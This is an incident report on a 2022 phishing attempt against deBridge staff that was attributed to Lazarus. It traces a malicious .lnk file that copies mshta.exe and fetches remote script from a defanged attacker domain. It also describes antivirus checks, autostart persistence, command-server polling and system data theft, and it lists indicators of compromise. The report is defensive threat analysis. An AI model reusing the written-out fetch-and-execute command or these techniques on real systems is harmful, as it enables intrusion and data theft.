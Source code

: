 # deBridge (Attempt)

Date:: August 5, 2022

Tags:: 🔑 - Google Docs Phishing


---


## Details

PSA for all teams in Web3, this campaign is likely widespread.
The attack vector was via email, with several of our team receiving a PDF file named “New Salary Adjustments” from an email address spoofing mine.
We have strict internal security policies and continuously work on improving them as well as educating the team about possible attack vectors. 
Most of the team members immediately reported the suspicious email, but one colleague downloaded and opened the file
This made us investigate the attack vector to understand how exactly it was supposed to work and what the consequences would be.
Attack won’t infect macOS users: opening this link on a Mac leads to zip archive with the normal PDF file Adjustments.pdf (md5: 15a4…39c2)
…while opening this link on Windows systems leads to an archive with password-protected pdf with the same name (md5: 0038…8bc4), and an additional file named Password.txt.lnk (md5: 2eaa…6a30)
The attack vector is as follows: user opens link from email -> downloads & opens archive -> tries to open PDF, but PDF asks for a password -> user opens password.txt.lnk and infects the whole system.
We’ve inspected password.txt.lnk and here's a brief description of its contents/actions.
LnkParse shows us that clicking the lnk file will execute a cmd.exe command.
Long story short, this command performs the following actions:
Copy C:\Windows\System32\mshta.exe -> %public%/mshta.exe
mshta.exe “https://www[.]googlesheet[.]info/NZrTnPVmtfjcSMz8n1hZZzvHQvUUEfFnIMAYliQuR+A=”
Opening the link in the browser won’t give any content, so we tried to simulate mshta.exe headers with cUrl and it worked!

### Moving deeper into the rabbit hole reveals what this script does:
    - 1. Show notepad.exe with “pdf password”: Salary2022
    - 2. Check if Antivirus processes are active (ekrn - Eset, qqpcrtp - Tencent, bdagent - BitDefender)
    - 3. If no AV processes are found: save the generated malicious file named Box.lnk into autostart folder
    - 4. Decode Base64-encoded backdoor from var lp, save it into a file with a random name

### Here is how it looks:
    - This simple script sends repetitive requests to the attacker command center (CnC) in order to receive instructions. 
    - Replacing eval with logging/echo in the code allowed us to receive malicious instructions from the CnC and analyze them without execution.
    - After a series of empty responses we were finally able to receive the next part. 
    - Fast analysis showed that received code collects A LOT of information about the PC and exports it to CnC: username, OS info, CPU info, network adapters, and running processes.
    - System is considered compromised at the moment because any code from CnC can be performed on the infected machine.
    - It’s interesting that only a few anti-virus solutions mark these files as malicious.
    - According to the Twitter thread https://mobile.twitter.com/cyberoverdrive/status/1550175620927299584 files with the same names (but different hashes) were noticed and attributed to Lazarus Group (North-Korean hackers).

### DangerousPassword / CryptoCore / CryptoMimic / APT
    - b52e3aaf1bd6e45d695db573abc886dc
    - Password.txt.lnk
    - www[.]googlesheet[.]info - overlapping infrastructure with @h2jazi's tweet as well as earlier campaigns.
    - d73e832c84c45c3faa9495b39833adb2
    - New Salary Adjustments.pdf 💸💸💸 twitter.com/h2jazi/status/…
    - More related files can be found with #DangerousPassword hashtag, old research is available here: https://threatbook.cn/ppt/The%20Nightmare%20of%20Global%20Cryptocurrency%20Companies%20-%20Demystifying%20the%20%E2%80%9CDangerousPassword%E2%80%9D%20of%20the%20APT%20Organization.pdf
    - Indicators of Compromise: CnC: www[.]googlesheet[.]info
    - New Salary Adjustments.pdf (clean): 15a42f76f41c8f4bab828160e4fd39c2
    - New Salary Adjustments.pdf (with password): 00380fcbb2af75ec177301d44d658bc4
    - password.txt.lnk: 2eaa53ccb43cd38a1f0a28abcd7f6a30

TL;DR: Never open email attachments without verifying the sender’s full email address, and have an internal protocol for how your team shares attachments!


## Further Reading

- https://twitter.com/AlexSmirnov__/status/1555586334378676225
- https://bleepingcomputer.com/news/security/north-korean-hackers-target-crypto-experts-with-fake-coinbase-job-offers/
- https://bleepingcomputer.com/news/security/debridge-finance-crypto-platform-targeted-by-lazarus-hackers/
